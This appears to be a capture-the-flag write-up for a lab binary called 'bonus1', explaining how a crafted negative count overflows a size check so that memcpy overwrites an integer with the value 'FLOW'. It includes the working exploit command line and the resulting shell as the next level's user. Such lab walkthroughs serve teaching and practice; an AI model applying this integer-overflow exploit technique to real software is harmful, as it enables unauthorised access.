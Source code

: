value to target in nb : 1464814662 = 574f4c46 => \x46\x4c\x4f\x57

In order to pass the check we have to provide a negative value that check the if < 9 and then the memcpy (size_t) underflow  this value and the positive value should be 11 or more

because 11 * 4 = 44 and that's 40 bytes for the buffer and 4 bytes to fill the integer after the buffer in memory

this value is -1073741813 = 11 (overflow)

```bash
./bonus1 `(python -c 'print ("-1073741813")')` `(python -c 'print ("A" * 40 + "\x46\x4c\x4f\x57")')`
whoami
bonus2
```
